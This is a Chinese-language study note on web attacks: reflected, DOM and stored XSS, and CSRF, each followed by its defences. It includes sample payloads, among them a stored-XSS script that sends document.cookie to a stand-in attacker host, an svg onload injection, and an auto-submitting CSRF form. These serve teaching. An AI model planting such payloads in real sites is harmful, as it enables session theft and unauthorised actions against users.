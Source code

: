 # 一、XSS（跨站脚本攻击）

![image-20200812153625933](../../../AppData/Roaming/Typora/typora-user-images/image-20200812153625933.png)

* 利用站点对于用户的信任
* 以下三种类型的攻击都需要攻击者准备一个服务器用来收集受害者的信息
* 利用站点没有对用户提交的数据进行转义处理或者过滤不足的缺点，进而添加一些代码，嵌入到web页面中，容易在以下情形中出现

```
1.搜索域 
2.输入域
3.留言板、评论区
```



## 1.1 反射型XSS 

* 如果一个网页上有一个表单，填完进行提交到服务器后，服务器直接将提交的数据作为响应内容又还给浏览器，浏览器对刚刚提交的内容进行显示，就会存在潜在的反射XSS漏洞(只需要在表单域中填写一些脚本代码)

```
原理
攻击者需要准备一个服务器或者他知道某台服务器有XSS漏洞
1.攻击者向受害者发送一个URL
2.受害者点击这个URL会向攻击者的服务器发送请求
3.服务器收到请求后，构造一个<script>标签,里面插入一些恶意脚本，比如获取cookie，发送一些信息给攻击者等,然后将这个脚本作为   响应内容发送给浏览器
4.浏览器接收到就会执行这个脚本
```

## 1.2 DOM型XSS（是反射型XSS的一种）

* 这种方式和上面的区别在于，这种不需要经过服务器参与

```
这种方式不要站点服务器参与
1.攻击者确认客户端的代码有DOM型XSS漏洞,以下情况会导致:
  代码中使用了innerHTML()
  使用url的hash进行页面跳转
  直接从localStorage、SessionStorage、cookie储存源中取数据,而不做处理(这些数据可以在浏览器上篡改)
  使用document.write 、document.URL.indexOf("id=")
2.在表单框中写入一些脚本代码就有可能达到攻击目的
```

```html
//1 比如现在有个网站的源码这这样的，该网页存在XSS漏洞
<html>
    <head>
        <title> DOM-XSS TEST </title>
        <style>
            #box{width:250px;height:200px;border:1px solid #e5e5e5;background:#f1f1f1;}
        </style>
    </head>
    <body>
        <script>
            window.onload= function(){
                var oBox=document.getElementById("box");
                var oSpan=document.getElementById("span1");
                var oText=document.getElementById("text1");
                var oBtn=document.getElementById("Btn");
                oBtn.onclick = function(){
                    oBox.innerHTML = oBox.innerHTML + oSpan.innerHTML + oText.value + "<br/>";
                    oText.value=""
                };
            }
        </script>
        <div id="box"></div>
        <span id="span1">小明：</span>
        <input type="text" id="text1"/>
        <input id="Btn" type="button" value="发送消息" name=""/>
    </body>
</html>

那么只要在输入框中输入<svg onload='alert(1)'/>,就会在div中插入一个svg标签，同时会执行JS代码，如果这个JS代码换成获取cookie的代码或者跳转代码就会造成严重的后果

//2 下面这个网站也存在DOM XSS漏洞
<html>
    <head>
        <title> DOM-XSS TEST </title>
    </head>
    <body>
        <script>
            var hash = location.hash;
            if(hash){
                var url = hash.substring(1);
                location.href = url;
            }
        </script>
    </body>
</html>
```

## 1.3 存储型XSS

```
原理 攻击者通过留言板或者评论区上传一些恶意代码到服务器中，下次受害者浏览包含恶意代码的页面就会执行
1.比如现在有个博客网站，攻击者在一篇博客的下面的评论区输入 
  <script>window.open("www.gongji.com?param="+document.cookie)</script>
  该站点由于没有对输入内容进行校验，直接当成评论的内容存放到数据库
2.受害者浏览这个博客的时候，攻击者的评论会被站点当成响应发送会受害者的浏览器，浏览器知道这是一个脚本就会执行，从而导致受害   者的信息被泄露到攻击者的服务器上
```

## 1.4 防御 [编码]

* 凡是要获取数据来自用户输入的，都需要进行编码

```
可以应对存储型XSS 
& ---> &amp
< ---> &lt
> ---> &gt
" ---> &#34
' ---> &#39

1.对于插入到HTML元素中的内容进行编码或者验证（如文本输入框中值，评论区，留言区）
2.如果需要把来自用户的数据放到url上的查询参数上的进行url编码（常见的GET请求）
```

* 用户不要不点击一些来历不明的链接

# 二、CSRF（跨站请求伪造）

```
一个例子：
受害者 Bob 在银行有一笔存款，通过对银行的网站发送请求 http://bank.example/withdraw?account=bob&amount=1000000&for=bob2 可以使 Bob 把 1000000 的存款转到 bob2 的账号下。通常情况下，该请求发送到网站后，服务器会先验证该请求是否来自一个合法的 session，并且该 session 的用户 Bob 已经成功登陆。

        黑客 Mallory 自己在该银行也有账户，他知道上文中的 URL 可以把钱进行转帐操作。Mallory 可以自己发送一个请求给银行：http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory。但是这个请求来自 Mallory 而非 Bob，他不能通过安全认证，因此该请求不会起作用。

        这时，Mallory 想到使用 CSRF 的攻击方式，他先自己做一个网站，在网站中放入如下代码： src=”http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory ”，并且通过广告等诱使 Bob 来访问他的网站。当 Bob 访问该网站时，上述 url 就会从 Bob 的浏览器发向银行，而这个请求会附带 Bob 浏览器中的 cookie 一起发向银行服务器。大多数情况下，该请求会失败，因为他要求 Bob 的认证信息。但是，如果 Bob 当时恰巧刚访问他的银行后不久，他的浏览器与银行网站之间的 session 尚未过期，浏览器的 cookie 之中含有 Bob 的认证信息。这时，悲剧发生了，这个 url 请求就会得到响应，钱将从 Bob 的账号转移到 Mallory 的账号，而 Bob 当时毫不知情。等以后 Bob 发现账户钱少了，即使他去银行查询日志，他也只能发现确实有一个来自于他本人的合法请求转移了资金，没有任何被攻击的痕迹。而 Mallory 则可以拿到钱后逍遥法外。
```

* CSRF攻击是利用站点对于浏览器的信任

```
对于大多数网站，浏览器会自动记录与网站相关联的认证消息(比如cookie)。因此如果一个站点已经完成认证，那么服务端将无法区分通过浏览器发来的请求究竟是用户发送的合法请求还是受欺骗后发送的非法请求

CSRF的目的是改变服务器的状态（如:某台服务器上记录了某个人的购物车的情况，那么发起CSRF可以改变购物车的情况）
```

## 2.1 攻击原理

```
1.用户登录购物网站A，这时候浏览器会保存A的cookie，修改购物车的情况可以有两种方式:
  a.发起GET请求
  b.发起POST请求

2.用户访问另外一个网站B:
  a.B上有一个链接(链接的地址就是A中修改购物车的接口地址),如果进行点击就会发起GET请求，因为请求的地址是A这个域的，所以浏览     器会自动带上A的cookie，服务器无法区分，就会进行相应的操作，改变购物车里面的东西
  b.B上有一些会自动发起GET请求的标签，其地址就是修改购物车的接口URL，那么只要访问网站B就会发起请求
  c.针对POST请求的,在B上构造一个表单(目的是为了利用表单上的action和method属性会在submit按钮点击的时候触发)，只需要将         action中的值改为修改购物车的URL，然后诱导用户点击submit按钮即可发起POST请求
    (也可以不用诱导,比如下面这种，只要访问就会发起请求)
```

```html
<body onload='document.getElementById('form').submit()'>
    <form id='form' action='修改购物车的接口URL' method='POST'>
        <input type='hidden'/>
    </form>
</body>
```

## 2.2 防御(3点)

* 如果要进行服务器状态的改变，均使用POST请求(不完全防御)

```
通过上述分析，可以看出。GET请求是最容易进行CSRF的
```

* 验证请求同源(后端做)

```
即使网站B拿到了修改请求的接口URL,如果发起请求，会在HTTP请求头中的Origin或者Referer中标记改站点的地址，如果发现不一样就拒绝这个请求
```

* 每次请求都带上token(前端可以做)

```
因为cookie是请求的时候浏览器自动带上的，所以在正常请求的时候主动带上token，而站点B由于在请求的时候没有token，请求就不能成功

不清楚将后台发送过来的token存放在浏览器中的sessionStorage中安不安全？？
```

* 在执行一些敏感操作的时候进行手机验证码，指纹，图形验证码

```
物理防御
```


